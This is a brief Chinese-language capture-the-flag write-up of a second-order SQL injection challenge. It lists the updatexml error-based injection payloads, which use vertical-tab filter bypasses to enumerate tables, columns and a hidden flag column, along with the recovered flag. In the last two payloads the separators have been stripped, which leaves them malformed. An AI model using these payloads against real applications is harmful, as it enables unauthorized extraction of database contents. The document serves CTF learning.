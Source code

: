 一道二次注入，注册的用户名是注入点，admin"注册可看到sql语句

查表
XPATH syntax error: '~article,flag,users~'


flag表有个flag字段，

RCTF{Good job! But flag not her

users表里

XPATH syntax error: '~name,pwd,email,real_flag_1s_her'

用regexp匹配一下

XPATH syntax error: '~real_flag_1s_here~'


查real_flag_1s_here全是xxx

查不等于xxx的，可得flag

flag{77cf3733-fc79-41ab-b7bc-b57e07a1851c}

所用到的主要sql如下
``` sql
admin"%0bXOR%0bupdatexml(1,concat(0x7e,(SELECT%0bgroup_concat(table_name)%0bfrom%0binformation_schema.tables%0bWHERE%0btable_schema=DATABASE()),0x7e),1)#


admin"%0bXOR%0bupdatexml(1,concat(0x7e,(SELECT%0bgroup_concat(column_name)%0bfrom%0binformation_schema.columns%0bWHERE%0btable_name="flag"),0x7e),1)#

admin"%0bXOR%0bupdatexml(1,concat(0x7e,(SELECT%0bgroup_concat(flag)%0bfrom%0bflag),0x7e),1)#

admin"%0bXOR%0bupdatexml(1,concat(0x7e,group_concat((SELECT%0bcolumn_name%0bfrom%0binformation_schema.columns%0bWHERE%0btable_name="users"%0bINTERSECT%0bSELECT%0bcolumn_name%0bfrom%0binformation_schema.columns%0bWHERE%0bcolumn_name%0bregexp%0b"^real")),0x7e),1)#

admin"XORupdatexml(1,concat(0x7e,(SELECTcount(real_flag_1s_here)fromuserswherereal_flag_1s_here!="xxx"),0x7e),1)#

admin"XORupdatexml(1,concat(0x7e,REVERSE((SELECTreal_flag_1s_herefromuserswherereal_flag_1s_here!="xxx")),0x7e),1)#
```